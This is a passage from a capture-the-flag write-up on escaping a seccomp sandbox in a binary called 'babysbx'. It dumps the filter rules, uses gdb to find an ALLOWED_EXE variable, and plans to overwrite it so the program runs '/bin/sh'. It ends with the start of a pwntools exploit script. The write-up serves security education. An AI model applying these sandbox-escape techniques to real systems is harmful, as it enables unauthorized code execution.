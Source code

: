 ```
 0040: 0x35 0x01 0x00 0x0c0df000  if (A >= 0xc0df000) goto 0042
 0041: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0042: 0x06 0x00 0x00 0x00000000  return KILL
```

That's still a lot, but we see that at first a good many syscalls are blocked. Right afterwards, some restrictions are set on allowed syscalls. The blocked syscalls include `open`, `mmap`, `mprotect`, `munmap`, `pread64`, `readv`, `clone`, `fork`, `vfork`, `kill`, `creat`, `ptrace`, `openat`, `preadv`, `openat`, `preadv`, `process_vm_readv`, `process_vm_writev`, `execveat`, and `preadv2`.

The syscalls that are restricted are `execve`, where the filename of our execve call must match the one at memory address `0x560f4c27a050`, as well as `read`, where the number of bytes read must be at most 1 and the address must be between `0xc0de000` and `0xc0df000` (the memory region we control with our shellcode).

It's strange to see execve restricted in this way, so let's take a look at what actually exists at `0x560f4c27a050`. Loading up our binary in `gdb`, we can either inspect the memory there directly (we would have to run `seccomp-tools` with address randomization disabled so addresses line up), or we can run ``info variables``:
```c
0x0000555555556050  ALLOWED_EXE
```
*Note that the difference in addresses is due to address randomization. `0x560f4c27a050` and `0x555555556050` represent the same variable.*

Further inspecting:
```c
pwndbg> x/s 0x0000555555556050
0x555555556050 <ALLOWED_EXE>:	"/bin/id"
```
Looks like the filename for our execve syscall is being compared to a string in a global variable called `ALLOWED_EXE` stored in the bss segment of memory. It's currently set to `"/bin/id"`, so we can only call `/bin/id`. However, if we could somehow control this variable, we could set it to anything we wanted, like `"/bin/sh"` or `"/readflag"` to run the flag binary we were also provided.

## Setting up an Exploit

At first I tried to just get some simple shellcode going to run `/bin/id`, which we should be able to do without any exploit. Quite noticeably, however, all the registers have been reset:
![reset_registers](/assets/blackhatmea/zerodaytea/reset_registers.webp)
*You can see this for yourself if you just send 0xfd7 bytes of anything and inspect in GDB.*

Any `PUSH` instruction we try will fail because there's no stack frame set up with `RSP` and `RBP`. For our initial setup code, we can start by creating a stack within the memory region that was allocated for us by setting `RBP` and `RSP` to some values with a couple of bytes in between for our stack.
```python
from pwn import *

elf = ELF("./babysbx")
context.binary = elf

def conn():
    if args.GDB:
        script = """
        b *(main+201)
        c
        """
        p = gdb.debug(elf.path, gdbscript=script)
    elif args.REMOTE:
        p = remote("addr", 1337)
    else:
        p = process(elf.path)
    return p

```